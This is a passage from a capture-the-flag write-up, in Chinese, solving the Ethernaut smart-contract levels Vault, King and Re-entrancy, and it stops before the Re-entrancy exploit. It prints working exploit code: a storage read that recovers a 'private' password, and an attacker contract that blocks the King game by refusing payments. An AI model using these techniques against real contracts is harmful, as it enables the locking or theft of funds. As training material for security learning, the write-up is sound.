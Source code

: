 ```solidity
      locked = false;
    }
  }
}
```
- slot 0: bool public locked;
- slot 1: bytes32 private password;

### Exploit
```javascript
password = await web3.eth.getStorageAt(contract.address, 1)
await contract.unlock(password)
```
Level completed.

## 9. King
目標 `king = player`

必須付比 prize() 更多的 ether 成為新的 king，提交 instance 時要避免 level 再度成為 king
```solidity
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```
line 4 會改變 king，因此需想辦法在 line 3 卡住

### Exploit
不寫 receive 或 fallback，當進到 `king.transfer(msg.value)` 會有 exception
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForeverKing {
    function claimKingship(address payable _to) public payable {
        (bool sent, ) = _to.call.value(msg.value)("");
    }
}
```
Level completed.

## 10. Re-entrancy
目標偷走合約所有的資產

很明顯違反 check-effect-interactions pattern
```solidity
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```
